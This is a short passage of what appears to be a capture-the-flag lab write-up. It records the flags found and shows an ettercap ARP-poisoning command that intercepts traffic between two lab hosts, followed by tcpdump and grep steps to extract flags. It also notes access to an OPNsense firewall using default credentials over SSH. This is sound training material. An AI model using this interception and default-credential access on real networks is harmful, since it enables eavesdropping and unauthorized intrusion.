 ![Shared Folder + Flag](image-7.png)

### network traffic
```
sudo ettercap -T -i tap0 -M arp /10.11.12.6/10.11.12.48/ -w file.pcap

tcpdump -r file.pcap -A > file.txt

cat file.txt | grep FLAG
```


## 10.11.12.13

FLAGS FOUND:
- OPNsense access - default credentials (FLAG-1578)
- OPNsense secure shell access - 5569 port, same credentials, shell, get the files (FLAG-1807)

### General scan

![alt text](image-49.png)
